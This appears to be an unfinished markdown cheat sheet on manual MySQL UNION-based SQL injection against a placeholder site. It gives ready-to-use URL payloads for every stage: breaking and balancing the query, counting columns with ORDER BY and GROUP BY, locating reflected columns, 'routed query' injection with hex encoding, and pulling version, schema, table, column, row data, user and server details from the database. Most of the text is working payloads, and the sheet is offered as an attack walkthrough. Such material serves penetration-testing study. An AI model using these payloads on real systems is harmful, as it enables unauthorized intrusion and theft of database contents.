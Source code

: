 # MySQL SQL Injection

#### Steps to perform SQL Injection.
1. Break the Query.
2. Fix/Balance the Query.
3. Get the total number of columns.
4. Get the vulnerable columns.
5. Exploit. (get the data from database)


### 1) Break the Query.
- let's say we have target https://website.com/product/id?=23 now, we want to test this URL for SQL Injection. So, as described in steps above, the very first thing we've to do is **Break the Query**.
- So, for breaking the query, we can use ``` ', ", `, . ```
 - example,
   - https://website.com/product/id?=23'
   - https://website.com/product/id?=23"
- after adding the ``` ', ", `, .```, you'll see error messages like, `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1` or any wired errors or maybe unusual behaviour in/on target website.

### 2) Fix the Query.
- after breaking the query, we've to fix the query. So, we can **balance** the **SQL QUERY**.
- So, for that we can use ``` --, --+, -- -, #, --#, ., -, /*, '), "), `), ')), ")),`)), ') -- ```
- example,
   - https://website.com/product/id?=23' --
   - https://website.com/product/id?=23' --+
   - https://website.com/product/id?=23' -- -
   - https://website.com/product/id?=23' #
   - https://website.com/product/id?=23' --#
   - https://website.com/product/id?=23' /*
   - https://website.com/product/id?=.23' --+ (see the `.`)
   - https://website.com/product/id?=-23' --+ (see the `-`)
   - https://website.com/product/id?=-23') --+ (see the `-`)
   - etc. (*there are many ways to fix the query. at the time of wrting this, I forgot some of them. I'll add them If I came to know about it. till then, add your own variations to it.*)
 
### 3) Get the total number of columns.
- after balancing/fixing the query, we need to solve this question. **how many columns are there ?**
- So, to check the columns we can use ``` ORDER BY, GROUP BY, PROCEDURE ANALYSE() ```
- example,
   - https://website.com/product/id?=23' ORDER BY 5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' ORDER BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' PROCEDURE ANALYSE()-- ERROR. (In this method, the website will act wiredly. So, keep closer look on website. ex. list random lists, paragraphs, errors, or something else, etc.)
     - Look at the website, if website lists random things let's say some 3 dots or whatever. then, confirm that, website has 3 columns.

### 4) Get the vulnerable columns.
- after getting the total number of columns, now it's time to find vulnerable columns, where we can try to place our pyloads strings to get the data from the database.
- So, to get the vulnerable columns, we can use ```UNION SELECT NULL or INT ``` or ```UNION ALL SELECT NULL or INT ```.
- add the NULL or INT value, total number of columns we get.
- example,
   - https://website.com/product/id?=23' UNION SELECT 1,2,3-- Because, we got the total 3 columns.
   - https://website.com/product/id?=23' UNION SELECT NULL,NULL,NULL--
   - https://website.com/product/id?=23' UNION ALL SELECT 1,2,3--
   - https://website.com/product/id?=23' UNION ALL SELECT NULL,NULL,NULL--
- now, in the case of `https://website.com/product/id?=23' UNION SELECT 1,2,3--`, you'll see a numbers been reflacted on the website. ex. 2,3. So, columns 2 & 3 is vulnerable.
- in case of NULL, we've to replace NULL by adding strings in each NULL value to get the vulnerable columns.
- example,
  - https://website.com/product/id?=23' UNION SELECT 'findVulClmn',NULL,NULL-- See, if `findVulClmn` been reflacted on website or not. if yes, then, congratulations, we've found vulnerable columns.
  - if not, go ahead and try, https://website.com/product/id?=23' UNION SELECT NULL, 'findVulClmn',NULL--.
  - try until you find some string being reflacted on website.

- **What if we didn't see any numbers been reflacted on website?**
 - So, in that case, we've to try other methods. such as, routed query, etc.
   - ***Routed Query***
     - So, in routed query injection technique, we do something like this,
       1. https://website.com/product/id?=23' UNION SELECT 1',2,3--
       2. https://website.com/product/id?=23' UNION SELECT 0x3127,2,3-- (**here 1' is 0xHEX-'0x3127' encoded.**)
         - now, put **0xHEX** encoded value on each column one after one and see the results. If, web page gets redirected or gets error or something strange happens in/on web page, then, assume that we can put our **routed query** in that column.
           - example,
             - if we get errors on 2nd column, (i.e. https://website.com/product/id?=23' UNION SELECT 1,0x3127,3--) then, we can perform our injection on that column like this,
             1. *Get the total number of columns:* https://website.com/product/id?=23' UNION SELECT 1,2' ORDER BY 10--,3-- ***(0xHEX the ORDER BY 10--)***
             2. *Get the vulnerable column:* https://website.com/product/id?=23' UNION SELECT 1,2' UNION SELECT 1,2,3,4,5--,3-- ***(0xHEX the UNION SELECT 1,2,3,4,5--)***
             3. now, you got the point. 🙂

### 5) Exploit. (get the data from database)
- So, after getting vulnerable columns, we can get the data from database by using various payloads.
- **get the version**
   - https://website.com/product/id?=23' UNION SELECT NULL,@@version,NULL--
   ```
   VERSION()
   @@GLOBAL.VERSION
   @@VERSION_COMMENT
   ```
   
- **get the database**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(schema_name), NULL FROM information_schema.schemata--
   ```
   DATABASE()
   SELECT CONCAT(DB) FROM INFORMATION_SCHEMA.PROCESSLIST
   ```
- **get the tables**
  - https://website.com/product/id?=23' UNION SELECT NULL,concat(table_name), NULL FROM information_schema.tables WHERE table_schema='DATABASE'--
- **get the columns**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(column_name), NULL FROM information_schema.columns WHERE table_name='TABLE_NAME'--
- **get the data**
   - https://website.com/product/id?=23' UNION SELECT NULL,concat(0x28,column_1,0x3a,column_2,0x29), NULL FROM TABLE_NAME--
- **get the user**
   - https://website.com/product/id?=23' UNION SELECT NULL,USER(),NULL--
   ```
   CURRENT_USER()
   SYSTEM_USER()
   SESSION_USER()
   SUBSTRING_INDEX(USER(),0x40,1)
   SELECT CONCAT(USER) FROM INFORMATION_SCHEMA.PROCESSLIST
   ```
 - **other**
   - SERVER OS : `@@VERSION_COMPILE_OS`
   - SERVER OS TYPE : `@@VERSION_COMPILE_MACHINE`
   - SQL BASE DIR : `@@BASEDIR`
   - SQL DATA DIR : `@@DATADIR`
   - PLUGIN DIR : `@@PULGIN_DIR`
   - HOSTNAME : `@@HOSTNAME`

**Note:** not completed. to be continued...
